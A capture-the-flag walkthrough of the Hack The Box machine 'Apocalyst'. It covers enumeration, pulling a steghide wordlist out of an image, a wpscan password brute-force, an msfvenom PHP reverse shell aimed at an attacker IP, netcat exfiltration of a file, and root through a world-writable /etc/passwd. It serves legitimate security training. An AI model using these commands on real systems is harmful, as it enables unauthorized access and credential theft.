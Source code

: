 ![logo](/logo.png)

# [Apocalyst- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 18 Aug 2017 machine on HTB,Apocalyst created by [Dosk3n](https://app.hackthebox.com/users/4987).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *steghide
  *Wordpress
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/apocalyst 10.10.10.46
```

###### Output 

![](/Linux/Linux-Medium/Apocalyst/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/apocalyst 10.10.10.46                                                                                       ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 19:45 EAT
Nmap scan report for 10.10.10.46
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
|_http-generator: WordPress 4.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.48 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache server`. 

port[22]-ssh
port[80]-  httpd 2.4.18

so when we go the browser at [http://10.10.10.46](http://10.10.10.46) i find a blog web-browser.

![](/Linux/Linux-Medium/Apocalyst/Screenshots/browser.png)

so lets add the `hostname` to `/etc/hosts`

I find nothing od interesting so lets start gobuster so that I can be able to enumerate active directories folders. 

```sh
gobuster dir -u http://10.10.10.46 -w /usr/share/wordlists/dirb/common.txt -k --no-error
```


![](/Linux/Linux-Medium/Apocalyst/Screenshots/gobuster.png)

i find a bunch of directories  but the sizes seem to be the same as their is nothing significant so i will use `cewl` to make a wordlist from the content of the website.

```sh
cewl 10.10.10.46 > wordlist.txt
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/cewl.png)

```sh
gobuster dir -u http://10.10.10.46 -w wordlist.txt -k --no-error
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/rightiousness.png)

lets download the image, however the Rightiousness directory has a larger response size.
Browsing to it reveals only an image

```sh
wget http://10.10.10.46/Rightiousness/image.jpg
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/download.png)

# Exploitation

running steghide against it with a blank passphrase will output a list.txt file, which is a list of random words of varying languages.

```sh
steghide extract -sf image.jpg
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/steghide.png)

The list seem to be a wordlist of passwords so lets bruteforce the with the user from the blog 

```sh
wpscan --url http://10.10.10.46 --passwords list.txt --usernames falaraki
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/foundpasswd.png)

lets use thi credentials to log into the admin once we login 

![](Linux/Linux-Medium/Apocalyst/Screenshots/login.png)

Browse to `Appearance > Editor` on the admin panel, and select the file `Single Post (single.php)`.From here, it is possible to replace the contents of the file with the PHP reverse shell.  So lets create a payload

```sh
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.15 lport=1338 -f
raw > writeup.php
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/msfvenom.png)

or you can use a `php revershell` from and browing to any post leds to a shell 

![](/Linux/Linux-Medium/Apocalyst/Screenshots/revershshell.png)

![](Linux/Linux-Medium/Apocalyst/Screenshots/shell.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/stty.png)

we can get the user flag on 

![](/Linux/Linux-Medium/Apocalyst/Screenshots/userflag.png)

so lets run `LinEnum` so that we can get possible `privsec`

![](/Linux/Linux-Medium/Apocalyst/Screenshots/linenum.png)

Running LinEnum on the machine reveals that the `/etc/passwd` file is world-writeable. By adding
a new line to the file, it is possible to create a new user that is part of the root group. However,
switching to this user requires an interactive session.

so let take the `.secret` to our local machine so that we can run strings on it.

```sh
cp .secrete /dev/shm
cd /dev/shm
nc -w 5 10.10.14.15 8003 < .secret 
```

```sh
nc -nvlp 8003 > .secret
```

![](/Linux/Linux-Medium/Apocalyst/Screenshots/bs64.png)

By running `strings` on the file `/home/falaraki/.secret`, a Base64-encoded string. Decoding the string reveals the `password` for the falaraki user.

![](/Linux/Linux-Medium/Apocalyst/Screenshots/decodeing.png)

![](/Linux/Linux-Medium/Apocalyst/Screenshots/falaraki.png)

```sh
writeup:$6$gUo4KFHI$WA8mYODvtKWzjxiwc3Nt6QyBFlhpTAODDCRJb5ORHlpOU1Lc5Rdg
Sb5psFzNkhmgMcPn7eCSrt1izT0a7S2LJ1:0:0:root:/root:/bin/bash
```

![](Linux/Linux-Medium/Apocalyst/Screenshots/etcpasswd.png)

Afterwards, `su writeup` (with the `password writeup`) will grant a root shell.

![](/Linux/Linux-Medium/Apocalyst/Screenshots/rootshell.png)

![](/Linux/Linux-Medium/Apocalyst/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------



